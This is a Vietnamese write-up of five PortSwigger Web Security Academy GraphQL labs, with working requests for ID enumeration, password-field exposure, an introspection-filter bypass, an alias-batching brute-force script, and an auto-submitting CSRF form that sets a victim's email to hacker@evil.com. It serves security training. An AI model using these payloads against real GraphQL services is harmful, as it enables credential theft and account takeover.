

# GraphQL

# **Lab: Accessing private GraphQL posts**

[Lab: Accessing private GraphQL posts | Web Security Academy](https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts)

- Thực hiện dẫn toàn bộ traffic của trang web qua proxy(Burpsuite). Trong phần mềm Burpsuite, thực hiện phân tích request gửi tới API `POST /graphql/v1`. Lấy toàn bộ scheme bằng instropection của Burpsuite hoặc sử dụng extension `InQL` để analyze cấu trúc. Ở đây, em dùng `InQL` thì thấy có function `getBlogById` . Sử dụng `Ctrl+R` chuyển request sang repeater
    - Request
        
        ```jsx
        POST /graphql/v1 HTTP/2
        Host: 0abe001a04dd7bae82b8744100940042.web-security-academy.net
        Cookie: session=xlaj4nHeXTaqM2VYuEYRA8oQyAHa39K6
        Content-Length: 214
        Sec-Ch-Ua-Platform: "Windows"
        Accept: application/json
        Content-Type: application/json
        
        {
            "query": "query GeneratedOperation($id: Int!) {\n  getBlogPost(id: $id) {\nid\n  image\n  title\n  author\n  date\n  summary\n  paragraphs\n  isPrivate\n  postPassword\n  }\n}",
            "variables": {"id": 3}
          }
        ```
        
    - POC
        
        
        
- Tại đây, thực hiện bruteforce id thì thấy blog với id là 3 có chứa secret key
    - POC
        
        
        
- Thực hiện submit. Hoàn thành giải lab
    
    
    

# **Lab: Accidental exposure of private GraphQL fields**

[Lab: Accidental exposure of private GraphQL fields | Web Security Academy](https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure)

- Thực hiện dẫn toàn bộ traffic của trang web qua proxy(Burpsuite). Trong phần mềm Burpsuite, thực hiện phân tích request gửi tới API `POST /graphql/v1`. Lấy toàn bộ scheme bằng instropection của Burpsuite
    - Request
        
        ```jsx
        POST /graphql/v1 HTTP/2
        Host: 0aed004a03aded6680186ce7004600b1.web-security-academy.net
        Cookie: session=lQMiuxqIvuzh8af22NsBUe1FiUxfEZRX
        Content-Length: 1404
        Accept: application/json
        Content-Type: application/json
        
        {"query":"query IntrospectionQuery {\n    __schema {\n        queryType {\n            name\n        }\n        mutationType {\n            name\n        }\n        subscriptionType {\n            name\n        }\n        types {\n            ...FullType\n        }\n        directives {\n            name\n            description\n            locations\n            args {\n                ...InputValue\n            }\n        }\n    }\n}\n\nfragment FullType on __Type {\n    kind\n    name\n    description\n    fields(includeDeprecated: true) {\n        name\n        description\n        args {\n            ...InputValue\n        }\n        type {\n            ...TypeRef\n        }\n        isDeprecated\n        deprecationReason\n    }\n    inputFields {\n        ...InputValue\n    }\n    interfaces {\n        ...TypeRef\n    }\n    enumValues(includeDeprecated: true) {\n        name\n        description\n        isDeprecated\n        deprecationReason\n    }\n    possibleTypes {\n        ...TypeRef\n    }\n}\n\nfragment InputValue on __InputValue {\n    name\n    description\n    type {\n        ...TypeRef\n    }\n    defaultValue\n}\n\nfragment TypeRef on __Type {\n    kind\n    name\n    ofType {\n        kind\n        name\n        ofType {\n            kind\n            name\n            ofType {\n                kind\n                name\n            }\n        }\n    }\n}"}
        ```
        
    - Response
        
        
        
- Có thể sự dụng extension `InQL` để tìm có hàm chức năng nào từ request trên. Ở đây, chúng ta thấy có hàm `getUser` lấy thông tin có cả password người dùng
    - POC
        
        
        
- Thực hiện nhấn `Ctrl+R` để chuyển request sang tab repeater. Thực hiển gửi request. Quan sát thấy có thể lấy được password của admin với `id` là 1
    - Request
        
        ```jsx
        POST /graphql/v1 HTTP/2
        Host: 0aed004a03aded6680186ce7004600b1.web-security-academy.net
        Cookie: session=lQMiuxqIvuzh8af22NsBUe1FiUxfEZRX
        Content-Length: 144
        Accept: application/json
        Content-Type: application/json
        
        {
            "query": "query GeneratedOperation($id: Int!) {\n  getUser(id: $id) {\nid\n  username\n  password\n  }\n}",
            "variables": {"id": 1}
          }
        ```
        
    - POC
        
        
        
- Thực hiện login với credential trên thành công
    - POC
        
        
        
- Điều hướng đến `Admin panel > carlos > Delete` . Quan sát thấy delete user `carlos` thành công. Hoàn thành giải lab
    - POC
        
        
        
        
        

# **Lab: Finding a hidden GraphQL endpoint**

[Lab: Finding a hidden GraphQL endpoint | Web Security Academy](https://portswigger.net/web-security/graphql/lab-graphql-find-the-endpoint)

- Thực hiện fuzzing thì thấy có API `/api` tuy nhiên status code trả về `400` với thông báo thiếu `query` param ⇒ thêm query param
    - POC
        
        
        
- Thêm param query và dùng instropection tuy nhiên đã bị chặn
    - POC
        
        
        
- Có thể thử thêm dấu cách hoặc dấu xuống dòng. Ở đây với cách xuống dòng có thể vượt qua bộ chặn
    - Payload
        
        ```jsx
        query IntrospectionQuery {
            __schema 
            {
                queryType {
                    name
                }
                mutationType {
                    name
                }
                subscriptionType {
                    name
                }
                types {
                    ...FullType
                }
                directives {
                    name
                    description
                    locations
                    args {
                        ...InputValue
                    }
                }
            }
        }
        
        fragment FullType on __Type {
            kind
            name
            description
            fields(includeDeprecated: true) {
                name
                description
                args {
                    ...InputValue
                }
                type {
                    ...TypeRef
                }
                isDeprecated
                deprecationReason
            }
            inputFields {
                ...InputValue
            }
            interfaces {
                ...TypeRef
            }
            enumValues(includeDeprecated: true) {
                name
                description
                isDeprecated
                deprecationReason
            }
            possibleTypes {
                ...TypeRef
            }
        }
        
        fragment InputValue on __InputValue {
            name
            description
            type {
                ...TypeRef
            }
            defaultValue
        }
        
        fragment TypeRef on __Type {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                    ofType {
                        kind
                        name
                    }
                }
            }
        }
        ```
        
    - POC
        
        
        
- Thực hiện phân tích dùng `InQL` lấy được function xóa user. Thay thế id (với user carlos có id là 3) để solve lab
    - Request
        
        ```jsx
        GET /api/?query=mutation+GeneratedOperation%28%24input%3a+DeleteOrganizationUserInput%29+%7b%0d%0a++++deleteOrganizationUser%28input%3a+%24input%29+%7b%0d%0a++++++++user+%7b%0d%0a++++++++++++id%0d%0a++++++++++++username%0d%0a++++++++%7d%0d%0a++++%7d%0d%0a%7d&variables=%7b%0d%0a++%22input%22%3a+%7b%0d%0a++++%22id%22%3a+3%0d%0a++%7d%0d%0a%7d HTTP/2
        Host: 0a8200ce03e504a78210519000ea0066.web-security-academy.net
        
        ```
        
        
        
        
        
    - Response
        
        
        
- Hoàn thành giải lab
    - POC
        
        
        

# **Lab: Bypassing GraphQL brute force protections**

[Lab: Bypassing GraphQL brute force protections | Web Security Academy](https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass)

- Thực hiện điều hướng đến chức năng `My account > Login` . Thực hiện login với username `carlos` .
    
    
    
- Trong phần mềm Burpsuite, thực hiện bắt và chuyển tiếp request gửi tới API `POST /graphql/v1` với function graphql là `login` . Thực hiện gửi request với mật khẩu sai 3 lần và thấy server chặn không cho bruteforce và phải đợi 1 phút
    - POC
        
        
        
- Sử dụng script sau để tạo ra các alias và input tương ứng
    - Code
        
        ```jsx
        import json
        
        passwords_raw = """[PASSWORD_LIST_HERE]"""
        
        def generate_graphql_bruteforce(username, password_list):
            passwords = [p.strip() for p in password_list.strip().split('\n')]
            
            mutation_parts = []
            variable_definitions = []
            variables_data = {}
        
            for i, pwd in enumerate(passwords):
                alias = f"login_{i}"
                var_name = f"input_{i}"
                
                # 1. Tạo định nghĩa biến: $input_0: LoginInput!
                variable_definitions.append(f"${var_name}: LoginInput!")
                
                # 2. Tạo alias body
                alias_block = f"  {alias}: login(input: ${var_name}) {{ token success }}"
                mutation_parts.append(alias_block)
                
                # 3. Tạo data cho biến
                variables_data[var_name] = {"username": username, "password": pwd}
        
            # Tổng hợp chuỗi
            gql_query = "mutation BatchLogin({defs}) {{\n{body}\n}}".format(
                defs=", ".join(variable_definitions),
                body="\n".join(mutation_parts)
            )
            
            return gql_query, variables_data
        
        # Chạy script
        username = "carlos"
        query, vars_json = generate_graphql_bruteforce(username, passwords_raw)
        
        print("--- GRAPHQL QUERY ---")
        print(query)
        print("\n--- VARIABLES JSON ---")
        print(json.dumps(vars_json, indent=2))
        ```
        
- Kết quả chạy script trên lấy được query và variables
    - POC
        
        
        
- Thực hiện thay phần query vào query và variables vào phần variables của request như sau:
    - Request
        
        
        
- Thực hiện gửi request đi. Quan sát response trả về chứa một response success
    - POC
        
        
        
- Tham chiếu lại với `input_40` (vì response trả về success với input này) và lấy được password đúng. Thực hiện login với credential lấy được và hoàn thành giải lab
    - POC
        
        
        

# **Lab: Performing CSRF exploits over GraphQL**

[Lab: Performing CSRF exploits over GraphQL | Web Security Academy](https://portswigger.net/web-security/graphql/lab-graphql-csrf-via-graphql-api)

- Thực hiện login vào tài khoản `wiener:peter` . Điều hướng đến chức năng `My account > Update email`
    
    
    
- Trong phần mềm Burpsuite, thực hiện bắt request gửi tới API `POST /graphql/v1` . Tại đây, quan sát cấu trúc graphql và tạo body request với dạng urlencoded như sau:
    - Payload
        
        ```jsx
        query=mutation+%7B+changeEmail%28input%3A+%7Bemail%3A+%22hacker%40evil.com%22%7D%29+%7B+email+%7D+%7D
        ```
        
- Thực hiện thay đổi phần body của request gửi tới API `POST /graphql/v1` thành payload trên. Tạo csrf form
    - Form
        
        ```jsx
        <html>
          <!-- CSRF PoC - generated by Burp Suite Professional -->
          <body>
            <form action="https://<url-lab>/graphql/v1" method="POST">
              <input type="hidden" name="query" value="mutation&#32;&#123;&#32;changeEmail&#40;input&#58;&#32;&#123;email&#58;&#32;&quot;hacker&#64;evil&#46;com&quot;&#125;&#41;&#32;&#123;&#32;email&#32;&#125;&#32;&#125;" />
              <input type="submit" value="Submit request" />
            </form>
            <script>
              history.pushState('', '', '/');
              document.forms[0].submit();
            </script>
          </body>
        </html>
        
        ```
        
- Thực hiện gửi cho victim bằng exploit server. Hoàn thành giải lab
    - POC
        
        